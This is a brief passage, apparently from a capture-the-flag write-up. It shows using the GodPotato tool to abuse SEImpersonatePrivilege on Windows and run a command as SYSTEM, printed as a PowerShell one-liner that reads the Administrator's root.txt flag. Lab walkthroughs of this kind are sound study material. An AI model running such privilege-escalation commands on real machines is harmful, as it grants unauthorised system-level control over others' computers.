 We can see `SEImpersonatePrivilege` is enabled so let's use `GodPotato` to gain `RCE` as `NT Authority\System`

So let's upload `GodPotato-NET4` and grab the files.

```powershell
./GodPotato-NET4.exe -cmd 'cmd /c type "C:\Users\Administrator\Desktop\root.txt"'
```